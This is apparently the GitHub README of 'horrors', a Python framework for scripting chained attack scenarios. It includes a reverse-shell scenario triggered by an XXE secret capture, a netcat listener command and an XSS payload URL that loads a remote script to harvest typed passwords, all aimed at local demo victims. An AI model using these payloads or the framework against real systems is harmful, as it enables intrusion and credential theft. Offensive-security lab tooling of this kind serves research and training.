

# horrors

> A micro-framework for writing attack scenarios starring multiple vulnerabilities.

## About

This framework was created in order to simplify attack automation and exploit development. All you have to do is, for example:

```python
async def reverse_shell(scenario):
    await scenario.http_post(
        'http://{rhost}:{rport}/query/'.format(**scenario.context),
        'secret={secret}&query=DROP+TABLE+IF+EXISTS+[...]{lhost}+{lport_reverse}'.format(**scenario.context),
        scenario.context['post_headers'],
        scenario.context['proxy']
    )

context = {
    'rhost': '127.0.0.1',
    'rport': 8008,
    'lhost': '127.0.0.1',
    'lport_reverse': 4444,
    'proxy': {'http': 'http://127.0.0.1:8080'},
    'post_headers': {'Content-Type': 'application/x-www-form-urlencoded'},
}

story = scenarios.Scenario(**context)

ftpd = services.FTPReader(story)
ftpd.set_event('xxe', when=triggers.DataMatch(r'.+SecretKey=(.+);', bucket='secret'))

story.debug()
story.add_scene(reverse_shell, when='xxe')
story.play()
```

## Installation

    $ git clone https://github.com/tasooshi/horrors
    $ cd horrors; pip3 install .

## Example

Examples are included in the `horrors/examples` directory. Try it out by running:

### 1. vulnchain

    $ nc -lv4 4444
    $ horrors/examples/vulnchain/victim.py
    $ horrors/examples/vulnchain/attacker.py

[](https://www.youtube.com/watch?v=VQwysZItPrE)

### 2. xssphish

Or (this one requires interaction):

    $ horrors/examples/xssphish/victim.py
    $ horrors/examples/xssphish/attacker.py

Now visit `http://127.0.0.1:8008/?message=<script src="http://127.0.0.1:8888/fakequery.js"></script>`, type some passwords and watch `collected.json` for incoming credentials.




## Changelog

* **2021/12/12** Beta (v0.4)
    * A bit of asyncio cleaning up
    * Fixed examples to match the new API
    * Simplified services imports and generally everything
    * Changed default ports
    * Added requirements to setup.py
    * Replaced requests with aiohttp
* **2021/08/26** Beta (v0.3)
    * Yet another refactoring.
    * Added full HTTP support using Flask.
    * Added `utility/collector.py` to simplify data collection from exploited machines (and another related example).
* **2021/08/10** Beta (v0.2)
    * Refactored and largely simplified codebase: it is now easier to reuse code between multiple scenarios by mixing functions, wrapping in classes etc.
    * Steps are not executed sequentially, you decide depending on signals (events) registered when adding to scenario (`story.add(func, when='something')`).
    * Removed asyncio.Event dependency since I was not able to make it work the way I wanted.
* **2021/07/30** Initial release (v0.1)
